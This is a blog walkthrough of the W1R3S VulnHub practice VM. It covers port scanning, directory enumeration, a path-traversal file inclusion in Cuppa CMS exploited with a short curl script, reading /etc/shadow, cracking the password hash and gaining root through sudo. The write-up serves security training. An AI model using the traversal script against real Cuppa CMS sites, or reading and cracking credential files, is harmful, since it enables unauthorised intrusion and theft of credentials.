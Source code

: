 ```yaml
---
layout: post
title: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: ghosts.jpeg
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You have been hired to do a penetration test on the W1R3S.inc individual server and report all findings. They have asked you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I've always like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We have two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turned out to be the installation setup for Cuppa CMS. This is how it looked like when the browser was pointed to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation){:target="_blank"}, in order for the installation to be completed, the database has to be created first.

>On step 2, configure the database and user administrator setting and click in next. Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. Suffice to say, I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip){:target="_blank"} of the Cuppa CMS code to see if I can discover any vulnerabilities.

It was certainly a pleasant surprise when I found one. I'm not sure if this is a new vulnerability but there is a LFI vulnerability with `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, an extremely simple script that will display any file as long as there is permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I requested for `/etc/shadow` and it showed up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not quite sure if `/etc/shadow` was intentionally made world-readable which should not be the case.

### John the Ripper

Well, what's done is done. With both `passwd` and `shadow` made available, I can `unshadow` them and send them to JtR for offline cracking with a password list like "rockyou".

The cracking was completed in seconds.

```
# john --format=crypt --show hashes.txt 
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

With the password of `w1r3s` made available, I can simply login to the box via SSH.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It wasn't long before I saw that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is just one command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

Frankly, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
